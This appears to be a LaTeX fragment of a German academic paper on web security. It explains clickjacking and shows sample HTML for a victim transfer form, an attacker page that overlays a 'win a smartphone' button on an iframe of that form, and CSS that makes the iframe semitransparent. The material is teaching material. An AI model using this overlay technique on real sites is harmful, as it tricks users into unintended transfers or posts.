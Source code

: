 Clickjacking nennt man den Versuch, einen Nutzer dazu zu bringen, auf schädliche Links zu klicken, von denen man zunächst denkt, dass sich dahinter scheinbar harmlose Videos, Bilder oder Artikel verbergen. Über einen ‚überlagerten‘ Link können Nutzer auf infizierte Webseiten oder Spams geleitet werden. Durch Clickjacking kann man Nutzer sogar dazu motivieren, Werbung oder schädliche Inhalte auf seiner Social-Media-Seite zu posten, ohne sich dem bewusst zu sein\cite{cj16}.\\

\textbf{Mögliche Angriffsszenarien:}\\
\\
\textbf{\textit{Szenario 1:}}\\

Bei diesem HTML-Code gibt es nur ein Formular mit einem ‚Absenden‘-Button. Durch das Verwenden dieses Buttons wird die Aktion \texttt{dotransfer} vorgenommen, die dazu führt, dass der Benutzer zur Anschauung weitergeleitet wird\cite{cjd13}.\\


\begin{LaTeXCode}[caption={Opferseite},captionpos=b, label=LaTeXCode:cj1][numbers=none]
<html>
	<head>
	<title>Opferseite</title>
	</head>
	<body>
	<form action="/dotransfer" method="post" />
		<input type="hidden" value="1000" name="amount" />
		<input type="hidden" value="[RND-ID]" name="csrftoken" />
		<input type="submit" value="submit" />
	</form>
	</body>
</html>
\end{LaTeXCode}

Durch die weiter unten verfassten HTML-Codes wird eine zweite Seite erstellt, die für die Einbindung der ersten Seite sorgt\cite{cjd13}:\\

\begin{LaTeXCode}[caption={Hackseite},captionpos=b, label=LaTeXCode:cj2][numbers=none]
<html>
	<head>
	<title>Hack</title>
	</head>
	<body>
		<button id="clickme"/>Gewinne ein Smartphone</button>
		<iframe src="http://opferseite.de/inittransfer.html" id="frame"/><iframe>
	</body>
</html>
\end{LaTeXCode}

Durch CSS (Cascading Style Sheets) ist es möglich das Iframe semitransparent zu gestalten, und den \texttt{clickme}-Button direkt über den \texttt{Absenden}-Button des Iframes zu legen\cite{cjd13}.\\

\begin{LaTeXCode}[caption={CSS},captionpos=b, label=LaTeXCode:cj3][numbers=none]
#clickme {
	position:absolute;
	top:0px;
	left:0px;
	color: #ff0000;
}

#frame {
	width: 100%
	height: 100%
	opacity: 0.5;
}
\end{LaTeXCode}

